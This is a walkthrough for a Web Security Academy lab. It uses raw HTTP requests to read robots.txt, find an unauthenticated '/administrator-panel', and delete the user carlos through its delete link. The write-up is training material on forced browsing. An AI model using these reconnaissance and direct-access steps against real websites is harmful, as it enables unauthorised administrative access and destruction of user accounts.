 ## Lab: Unprotected admin functionality

This lab has an unprotected admin panel.

Solve the lab by deleting the user `carlos`.

## Solution:
We enter the site and sends the request to repeater and first action is to request robots.txt.
Request:
```http
GET /robots.txt HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/plain; charset=utf-8
Set-Cookie: session=1Upan7uS63a4DAqTMfwhu59vMYz4PDqE; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 45

User-agent: *
Disallow: /administrator-panel

```

Here we find the ```/administrator-panel``` and send a request there.
Request:
```http
GET /administrator-panel HTTP/2
Host: 0ab5004c039c609481a32f0f00210040.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="131", "Not_A Brand";v="24"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.140 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```
Response:
```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
Cache-Control: no-cache
Set-Cookie: session=k2OK2lD45dR42kb5XpanNo70p8NRJxFm; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 3034

<!DOCTYPE html>
<html>
    <head>
        <link href=/resources/labheader/css/academyLabHeader.css rel=stylesheet>
        <link href=/resources/css/labs.css rel=stylesheet>
        <title>Unprotected admin functionality</title>
    </head>
**********SNIP**********
                    <section>
                        <h1>Users</h1>
                        <div>
                            <span>wiener - </span>
                            <a href="/administrator-panel/delete?username=wiener">Delete</a>
                        </div>
                        <div>
                            <span>carlos - </span>
                            <a href="/administrator-panel/delete?username=carlos">Delete</a>
                        </div>
                    </section>
                    <br>
                    <hr>
                </div>
            </section>
**********SNIP**********
</html>
```

In the html snippet we find the a tag with a href attribute pointing to /delete with a query string pointing to a username to delete.

We make a request to the a tag.
```http
HTTP/2 302 Found
Location: /administrator-panel
Set-Cookie: session=6QC0cViVhZZlzgl0x73AoKJaAKg7k5tI; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Content-Length: 0
```
We get a 302 which redirects us back to the admin panel with the message
![](Deleted_User_Successfully.png)